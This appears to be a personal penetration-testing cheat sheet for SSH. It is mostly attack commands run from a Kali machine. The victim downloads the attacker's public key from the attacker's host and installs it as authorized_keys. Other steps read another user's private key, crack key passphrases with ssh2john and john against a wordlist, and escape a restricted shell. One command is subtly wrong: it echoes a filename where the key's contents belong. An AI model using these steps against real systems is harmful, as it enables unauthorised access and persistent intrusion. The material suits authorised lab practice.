 #### SSH Enuemration
```bash - kali
ssh $TARGET -p 22
```

#### Generate key upload to victim
Target:
```bash - target
cd ~
```

```bash - target
mkdir .ssh && cd .ssh
```

Kali:
```bash - kali
ssh-keygen
```

```bash - kali
cp /home/kali/.ssh/id_rsa* .
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/id_rsa.pub
```

```bash - target
mv id_rsa.pub authorized_keys
```

Grant proper permissions (0700 for **~/.ssh** and 0644 for **~/.ssh/authorized_keys**).

Kali:
```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh -i id_rsa $USER@$TARGET
```

If that fails, try:
```bash - kali
echo id_rsa.pub > ~/.ssh/authorized_keys
```

Then:
```bash - kali
ssh $USER@$TARGET
```

#### id_rsa

Target:
```bash
cat /home/user/.ssh/id_rsa
```

Kali, copy value to local id_rsa file:
```bash
sudo chmod 600 id_rsa
```

```bash
ssh -i id_rsa $USER@$TARGET -p 2222
```

#### Disable login scripts

Kali:
```bash - kali
ssh $USER@$TARGET -t 'bash --noprofile'
```

#### ssh2john keyphrase
```bash
locate ssh2john
```

OR

```bash
wget https://raw.githubusercontent.com/openwall/john/bleeding-jumbo/run/ssh2john.py
```

```python
python3 /usr/share/john/ssh2john.py id_rsa > key.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt key.txt
```

#### [Error] no matching host key exchange type found.
```bash - kali
ssh $TARGET -oKexAlgorithms=+diffie-hellman-group1-sha1 -c aes128-cbc -p 22
```

```bash - kali
ssh $TARGET -oHostKeyAlgorithms=+ssh-dss -p 22
```

#### Escaping from rbash
```bash
ssh $USER@$TARGET -t "bash --noprofile"
```